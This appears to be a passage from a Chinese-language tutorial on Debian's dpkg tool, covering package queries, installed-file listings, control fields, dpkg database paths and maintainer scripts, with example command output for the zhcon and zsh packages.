<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line">-l：查看系统认识的包的列表及安装状态</span><br><span class="line"></span><br><span class="line">iU 表示软件包未安装成功</span><br><span class="line">ii 表示安装成功</span><br><span class="line">rc 表示软件包已经被卸载,但配置文件仍在 删除：dpkg -l | grep ^rc | cut -d<span class="string">' '</span> -f3 | sudo xargs dpkg --purge</span><br><span class="line"></span><br><span class="line">期望状态=未知(u)/安装(i)/删除(r)/清除(p)/保持(h)</span><br><span class="line">| 状态=未安装(n)/已安装(i)/仅存配置(c)/仅解压缩(U)/配置失败(F)/不完全安装(H)/触发器等待(W)/触发器未决(T)</span><br><span class="line">|/ 错误?=(无)/须重装(R) (状态，错误：大写=故障)</span><br><span class="line">||/ 名称           版本         体系结构     描述</span><br><span class="line">+++<span class="attribute">-</span>==============-============-============-========================================================</span><br><span class="line">ii  zhcon          1:0.2.6-16   amd64        Fast<span class="built_in"> console </span>CJK<span class="built_in"> system </span>using FrameBuffer (main program)</span><br><span class="line"></span><br><span class="line">$ dpkg -l ’b*’</span><br></pre></td></tr></table></figure>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br></pre></td><td class="code"><pre><span class="line"> -L：所安装的文件</span><br><span class="line"> /.</span><br><span class="line">/etc</span><br><span class="line">/etc/zhcon.conf</span><br><span class="line">/usr</span><br><span class="line">/usr/bin</span><br><span class="line">/usr/bin/zhcon</span><br><span class="line">/usr/share</span><br><span class="line">/usr/share/doc</span><br><span class="line">/usr/share/doc/zhcon</span><br><span class="line">/usr/share/doc/zhcon/README.Debian</span><br><span class="line">/usr/share/doc/zhcon/README.gz</span><br><span class="line">/usr/share/doc/zhcon/README.utf8</span><br><span class="line">/usr/share/doc/zhcon/THANKS</span><br><span class="line">/usr/share/doc/zhcon/TODO</span><br><span class="line">/usr/share/doc/zhcon/bpsf.txt.gz</span><br><span class="line">/usr/share/doc/zhcon/changelog.Debian.gz</span><br><span class="line">/usr/share/doc/zhcon/changelog.gz</span><br><span class="line">/usr/share/doc/zhcon/copyright</span><br><span class="line">/usr/share/doc/zhcon/manual.dvi.gz</span><br><span class="line">/usr/share/doc/zhcon/manual.ps.gz</span><br><span class="line">/usr/share/doc/zhcon/manual.tex.gz</span><br><span class="line">/usr/share/man</span><br><span class="line">/usr/share/man/man1</span><br><span class="line">/usr/share/man/man1/zhcon.<span class="number">1</span>.gz</span><br></pre></td></tr></table></figure>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">-s:查找文件头为xxx的包</span><br><span class="line">Package: zhcon</span><br><span class="line">Status: install ok installed</span><br><span class="line">Priority: optional</span><br><span class="line">Section: utils</span><br><span class="line">Installed-Size: 427</span><br><span class="line">Maintainer: Debian Chinese Team &lt;chinese-developers@lists.alioth.debian.org&gt;</span><br><span class="line">Architecture: amd64</span><br><span class="line">Version: 1:0.2.6-16</span><br><span class="line">Depends: zhcon-data, libc6 (&gt;= 2.15), libgcc1 (&gt;= 1:3.0), libgpm2 (&gt;= 1.20.7), libncurses6 (&gt;= 6), libpth20 (&gt;= 2.0.7), libstdc++6 (&gt;= 5.2), libtinfo6 (&gt;= 6), unicon-imc2</span><br><span class="line">Conffiles:</span><br><span class="line"> /etc/zhcon.conf b5a1e7387013bf373cbd4a33071093d6</span><br><span class="line">Description: Fast<span class="built_in"> console </span>CJK<span class="built_in"> system </span>using FrameBuffer (main program)</span><br><span class="line"> Zhcon is a fast Linux<span class="built_in"> console </span>Chinese<span class="built_in"> system </span>which supports framebuffer</span><br><span class="line"> device.  It can display Chinese, Japanese <span class="keyword">or</span> Korean double byte characters</span><br><span class="line"> on console.</span><br></pre></td></tr></table></figure>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br></pre></td><td class="code"><pre><span class="line">-S 【Package】</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/py.mb</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/bpsf.txt.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/ed.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/cjf.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon-data/copyright</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/hzk12.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc16.bpsf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/manual.tex.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/cjj.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc12x.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/big5<span class="number">-16.</span>bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/big5-cj.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/hzk14.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/ksc<span class="number">-16.</span>bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/wb.mb</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/etc/</span>zhcon.conf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/copyright</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc14.bpsf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/man/</span>man1/zhcon<span class="number">.1</span>.gz</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/TODO</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/changelog.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc14b.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/big5-liu5.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/hzk16.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/jp.mb</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/README.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/winsp.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share/zhcon</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/manual.ps.gz</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>bin/zhcon</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/big5-phone.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/dzm.mb</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/THANKS</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/gb<span class="number">-24</span>-kai.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/sp.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/wbew.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/winpy.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon-data/changelog.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc12.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/gb<span class="number">-16.</span>bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/big5<span class="number">-12</span>-ming.bpsf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/README.utf8</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/gbk<span class="number">-16.</span>bpsf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/changelog.Debian.gz</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/manual.dvi.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/jis<span class="number">-16.</span>bpsf</span><br><span class="line"><span class="string">zhcon:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon/README.Debian</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon-data/changelog.Debian.gz</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/pt.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/doc/</span>zhcon-data</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>font/asc24.bpsf</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/winzm.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/big5-ary30.mb</span><br><span class="line">zhcon-<span class="string">data:</span> <span class="regexp">/usr/</span>share<span class="regexp">/zhcon/</span>input/wbh.mb</span><br><span class="line"></span><br><span class="line">-S 【Path】：搜索查找包含某参数的文件活的包或含有所需路径的包</span><br><span class="line">$ dpkg -S <span class="regexp">/etc/</span>apache2/</span><br><span class="line">libapache2-mod-dnssd, javascript-common, <span class="string">apache2:</span> <span class="regexp">/etc/</span>apache2</span><br></pre></td></tr></table></figure>
</li>
<li><p>Dpkg 部分日志记录</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">/var/<span class="class"><span class="keyword">lib</span>/<span class="title">dpkg</span>/<span class="title">status</span>	     安装状态</span></span><br><span class="line">/var/<span class="class"><span class="keyword">lib</span>/<span class="title">dpkg</span>/<span class="title">info</span>/*.<span class="title">list</span>    包所安装的文件</span></span><br><span class="line">/var/<span class="class"><span class="keyword">lib</span>/<span class="title">dpkg</span>/<span class="title">info</span>           配置的脚本</span></span><br></pre></td></tr></table></figure>
</li>
<li><p>Dpkg添加、删除架构</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">dpkg --<span class="built_in">add</span>-architecture i386</span><br><span class="line">dpkg --<span class="built_in">remove</span>-architecture i386</span><br><span class="line">dpkg --<span class="built_in">get</span>-selections | awk <span class="string">'/i386/&#123;print $1&#125;'</span></span><br><span class="line">apt-<span class="built_in">get</span> <span class="keyword">update</span></span><br><span class="line">`dpkg --<span class="keyword">print</span>-foreign-architectures` ：显示外来结构</span><br></pre></td></tr></table></figure>
</li>
</ul>
<p>DPKG其他补充</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br></pre></td><td class="code"><pre><span class="line">=========================================================================================</span><br><span class="line">$ dpkg -s libwine</span><br><span class="line">dpkg-query: error: <span class="comment">--status needs a valid package name but ’libwine’ is not: ambiguous</span></span><br><span class="line">➥ package name ’libwine’ <span class="keyword">with</span> more <span class="keyword">than</span> one installed <span class="keyword">instance</span></span><br><span class="line"><span class="keyword">Use</span> <span class="comment">--help for help about querying packages.</span></span><br><span class="line">$ dpkg -s libwine:amd64 libwine:i386 | grep ^Multi</span><br><span class="line">Multi-Arch: same</span><br><span class="line">Multi-Arch: same</span><br><span class="line">$ dpkg -L libgcc1:amd64 |grep .so</span><br><span class="line">[...]</span><br><span class="line">/usr/lib/x86_64-linux-gnu/wine/libwine.so<span class="number">.1</span></span><br><span class="line">$ dpkg -S /usr/<span class="keyword">share</span>/doc/libwine/copyright</span><br><span class="line">libwine:amd64, libwine:i386: /usr/<span class="keyword">share</span>/doc/libwine/copyright</span><br><span class="line">=========================================================================================</span><br><span class="line"><span class="comment"># dpkg建议安装的包，不需要就不装</span></span><br><span class="line">Suggests: apt-doc, aptitude | synaptic | wajig, dpkg-dev (&gt;= <span class="number">1.17</span><span class="number">.2</span>), powermgmt-base,</span><br><span class="line">➥ python-apt</span><br><span class="line"></span><br><span class="line"><span class="comment"># Incompatibilities: the Breaks Field：安装他将会破坏某包[已安装的]，主要是版本不兼容</span></span><br><span class="line">Breaks: apt-utils (&lt;&lt; <span class="number">1.3</span>~exp2~)</span><br><span class="line"></span><br><span class="line"><span class="comment"># 表示该包有权替换系统中已安装包的部分文件</span></span><br><span class="line">Replaces: apt-utils (&lt;&lt; <span class="number">1.3</span>~exp2~) </span><br><span class="line"></span><br><span class="line"><span class="keyword">Section</span>: <span class="keyword">admin</span></span><br><span class="line"><span class="keyword">Priority</span>: important</span><br><span class="line">Description: commandline <span class="keyword">package</span> manager</span><br><span class="line">This <span class="keyword">package</span> provides commandline tools <span class="keyword">for</span> searching <span class="keyword">and</span></span><br><span class="line">managing <span class="keyword">as</span> well <span class="keyword">as</span> querying information about packages</span><br><span class="line"><span class="keyword">as</span> a <span class="keyword">low</span>-<span class="keyword">level</span> <span class="keyword">access</span> <span class="keyword">to</span> <span class="keyword">all</span> features <span class="keyword">of</span> the libapt-pkg library.</span><br><span class="line">.</span><br><span class="line">These <span class="keyword">include</span>:</span><br><span class="line">* apt-<span class="keyword">get</span> <span class="keyword">for</span> retrieval <span class="keyword">of</span> packages <span class="keyword">and</span> information about them</span><br><span class="line"><span class="keyword">from</span> <span class="keyword">authenticated</span> sources <span class="keyword">and</span> <span class="keyword">for</span> installation, <span class="keyword">upgrade</span> <span class="keyword">and</span></span><br><span class="line">removal <span class="keyword">of</span> packages together <span class="keyword">with</span> their dependencies</span><br><span class="line">* apt-<span class="keyword">cache</span> <span class="keyword">for</span> querying available information about installed</span><br><span class="line"><span class="keyword">as</span> well <span class="keyword">as</span> installable packages</span><br><span class="line">* apt-cdrom <span class="keyword">to</span> <span class="keyword">use</span> removable media <span class="keyword">as</span> a <span class="keyword">source</span> <span class="keyword">for</span> packages</span><br><span class="line">* apt-config <span class="keyword">as</span> an <span class="keyword">interface</span> <span class="keyword">to</span> the configuration <span class="keyword">settings</span></span><br><span class="line">* apt-<span class="keyword">key</span> <span class="keyword">as</span> an <span class="keyword">interface</span> <span class="keyword">to</span> manage <span class="keyword">authentication</span> <span class="keyword">keys</span></span><br><span class="line"></span><br><span class="line">！！：有些包有conflicts字段：表示有冲突的包</span><br><span class="line"></span><br><span class="line">Provides：有关虚拟包的概念；相反，源包用来说明依赖项</span><br><span class="line">the control.tar.gz <span class="keyword">archive</span> <span class="keyword">for</span> <span class="keyword">each</span> Debian <span class="keyword">package</span> may contain a <span class="built_in">number</span> <span class="keyword">of</span> scripts (postinst, postrm, preinst, prerm)</span><br><span class="line">=========================================================================================</span><br><span class="line">$ dpkg -I /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/zsh_5<span class="number">.3</span><span class="number">-1</span>_amd64.deb | <span class="keyword">head</span>   </span><br><span class="line"><span class="keyword">new</span> debian <span class="keyword">package</span>, <span class="keyword">version</span> <span class="number">2.0</span>.</span><br><span class="line"><span class="keyword">size</span> <span class="number">814486</span> <span class="keyword">bytes</span>: control <span class="keyword">archive</span>=<span class="number">2557</span> bytes.</span><br><span class="line"><span class="number">838</span> <span class="keyword">bytes</span>, <span class="number">20</span> <span class="keyword">lines</span> control</span><br><span class="line"><span class="number">3327</span> <span class="keyword">bytes</span>, <span class="number">43</span> <span class="keyword">lines</span> md5sums</span><br><span class="line"><span class="number">969</span> <span class="keyword">bytes</span>, <span class="number">41</span> <span class="keyword">lines</span> * postinst <span class="comment">#!/bin/sh</span></span><br><span class="line"><span class="number">348</span> <span class="keyword">bytes</span>, <span class="number">20</span> <span class="keyword">lines</span> * postrm <span class="comment">#!/bin/sh</span></span><br><span class="line"><span class="number">175</span> <span class="keyword">bytes</span>, <span class="number">5</span> <span class="keyword">lines</span> * preinst <span class="comment">#!/bin/sh</span></span><br><span class="line"><span class="number">175</span> <span class="keyword">bytes</span>, <span class="number">5</span> <span class="keyword">lines</span> * prerm <span class="comment">#!/bin/sh</span></span><br><span class="line"><span class="keyword">Package</span>: zsh</span><br><span class="line"><span class="keyword">Version</span>: <span class="number">5.3</span><span class="number">-1</span></span><br><span class="line">$ dpkg -I zsh_5<span class="number">.3</span><span class="number">-1</span>_amd64.deb preinst</span><br><span class="line"><span class="comment">#!/bin/sh</span></span><br><span class="line"><span class="keyword">set</span> -e</span><br><span class="line"><span class="comment"># Automatically added by dh_installdeb</span></span><br><span class="line">dpkg-maintscript-helper symlink_to_dir /usr/<span class="keyword">share</span>/doc/zsh zsh-common <span class="number">5.0</span><span class="number">.7</span><span class="number">-3</span> <span class="comment">-- ”$@”</span></span><br><span class="line"><span class="comment"># End automatically added section</span></span><br><span class="line">=========================================================================================</span><br><span class="line">dpkg数据库：/<span class="keyword">var</span>/lib/dpkg/</span><br><span class="line">已安装包的配置脚本：/<span class="keyword">var</span>/lib/dpkg/info/ 如：</span><br><span class="line">$ ls /<span class="keyword">var</span>/lib/dpkg/info/zsh.*</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.list</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.md5sums</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.postinst</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.postrm</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.preinst</span><br><span class="line">/<span class="keyword">var</span>/lib/dpkg/info/zsh.prerm</span><br><span class="line">=========================================================================================</span><br><span class="line"><span class="comment"># 以下显示的是来自这个包的文件有哪些</span></span><br><span class="line">$ <span class="keyword">head</span> /<span class="keyword">var</span>/lib/dpkg/info/zsh.list</span><br><span class="line">/.</span><br><span class="line">/<span class="keyword">bin</span></span><br><span class="line">/<span class="keyword">bin</span>/zsh</span><br><span class="line">/<span class="keyword">bin</span>/zsh5</span><br><span class="line">/usr</span><br><span class="line">/usr/lib</span><br><span class="line">/usr/lib/x86_64-linux-gnu</span><br><span class="line">/usr/lib/x86_64-linux-gnu/zsh</span><br><span class="line">/usr/lib/x86_64-linux-gnu/zsh/<span class="number">5.2</span></span><br><span class="line">/usr/lib/x86_64-linux-gnu/zsh/<span class="number">5.2</span>/zsh</span><br><span class="line">[...]</span><br><span class="line">=========================================================================================</span><br><span class="line"><span class="comment"># 以下同样是用来显示control信息</span></span><br><span class="line">$ more /<span class="keyword">var</span>/lib/dpkg/<span class="keyword">status</span></span><br><span class="line"><span class="keyword">Package</span>: gnome-<span class="keyword">characters</span></span><br><span class="line"><span class="keyword">Status</span>: <span class="keyword">install</span> ok installed</span><br><span class="line"><span class="keyword">Priority</span>: optional</span><br><span class="line"><span class="keyword">Section</span>: gnome</span><br><span class="line">Installed-<span class="keyword">Size</span>: <span class="number">1785</span></span><br><span class="line">Maintainer: Debian GNOME Maintainers &lt;pkg-gnome-</span><br><span class="line">➥ maintainers@lists.alioth.debian.org&gt;</span><br><span class="line">Architecture: amd64</span><br><span class="line"><span class="keyword">Version</span>: <span class="number">3.20</span><span class="number">.1</span><span class="number">-1</span></span><br><span class="line">[...]</span><br><span class="line">=========================================================================================</span><br><span class="line"><span class="comment"># ar p /var/cache/apt/archives/bash_4.4-2_amd64.deb control.tar.gz | tar -tzf -</span></span><br><span class="line">./</span><br><span class="line">./conffiles</span><br><span class="line">./control</span><br><span class="line">./md5sums</span><br><span class="line">./postinst</span><br><span class="line">./postrm</span><br><span class="line">./preinst</span><br><span class="line">./prerm</span><br><span class="line">=========================================================================================</span><br><span class="line"><span class="string">`dpkg --verify 【package】`</span> ：用于检查包的<span class="keyword">md5</span>，检查包是否被修改过</span><br><span class="line"> conffiles文件列出了要被当做配置文件看待的文件</span><br><span class="line">=========================================================================================</span><br><span class="line">dpkg处理配置文件的更新时常中断工作来询问管理员要采用新或旧版本的配置文件，这可以用 <span class="comment">--force-confold /  --force-confnew 来回答dpkg这个问题。</span></span><br><span class="line"><span class="comment">--force-confask用于指定dpkg询问。</span></span><br><span class="line">在APT中向dpkg指明使用新版本的配置文件</span><br><span class="line">$ sudo apt -o DPkg::options::=”<span class="comment">--force-confdef” -o DPkg::options::=”--force-confold” full-upgrade</span></span><br><span class="line">或者通过修改配置文件：/etc/apt/apt.conf.d/<span class="keyword">local</span></span><br><span class="line">DPkg::options &#123; ”<span class="comment">--force-confdef”; ”--force-confold”; &#125;</span></span><br><span class="line">=========================================================================================</span><br><span class="line">关于postinst, postrm, preinst, prerm脚本文件：</span><br><span class="line">preinst：安装前的准备</span><br><span class="line">postinst：紧随其后（上面脚本） </span><br><span class="line">prerm：在卸载前的引用对象</span><br><span class="line">postrm：紧随其后（prerm）</span><br><span class="line">=========================================================================================</span><br><span class="line">安装活更新：</span><br><span class="line"><span class="number">1.</span> <span class="keyword">For</span> an <span class="keyword">update</span>, dpkg calls the <span class="keyword">old</span>-prerm <span class="keyword">upgrade</span> <span class="keyword">new</span>-version.</span><br><span class="line"><span class="number">2.</span> Still <span class="keyword">for</span> an <span class="keyword">update</span>, dpkg <span class="keyword">then</span> executes <span class="keyword">new</span>-preinst <span class="keyword">upgrade</span> <span class="keyword">old</span>-<span class="keyword">version</span>; for a first installation, it executes new-preinst install. It may <span class="keyword">add</span> the <span class="keyword">old</span>  	<span class="keyword">version</span> <span class="keyword">in</span> the <span class="keyword">last</span> parameter <span class="keyword">if</span> the 